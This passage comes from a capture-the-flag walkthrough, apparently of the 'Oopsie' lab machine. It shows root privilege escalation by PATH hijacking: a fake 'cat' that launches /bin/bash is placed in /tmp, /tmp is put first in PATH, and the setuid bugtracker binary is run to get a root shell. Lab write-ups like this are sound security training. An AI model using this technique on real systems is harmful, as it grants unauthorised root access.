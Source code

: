 Run bugtracker
```
/usr/bin/bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 12
12
---------------

cat: /root/reports/12: No such file or directory
```

tool atempts to cat a file. Create an alternate cat in /tmp containing /bin/bash and then change priv

```bash
cd /tmp

echo /bin/bash > cat

chmod +x cat
```

In order to exploit this we can add the /tmp directory to the PATH environmental variable.

```bash
export PATH=/tmp:$PATH

```
check
```bash
echo $PATH
```

Run bugtracker from /tmp give imput and check user.

```
robert@oopsie:/tmp$ bugtracker
bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 2
2
---------------

root@oopsie:/tmp# whoami
whoami
root

```
